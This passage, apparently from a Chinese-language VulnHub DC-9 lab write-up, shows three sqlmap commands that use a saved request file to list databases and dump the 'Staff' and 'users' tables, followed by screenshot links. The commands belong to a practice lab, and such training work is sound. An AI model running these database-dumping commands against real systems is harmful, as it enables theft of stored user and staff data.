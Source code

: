 运气挺好,直接拖库
```bash
sqlmap -r 1.txt --dbs
sqlmap -r 1.txt -D Staff --dump
sqlmap -r 1.txt -D users --dump
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC9/5.png)

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC9/6.png)
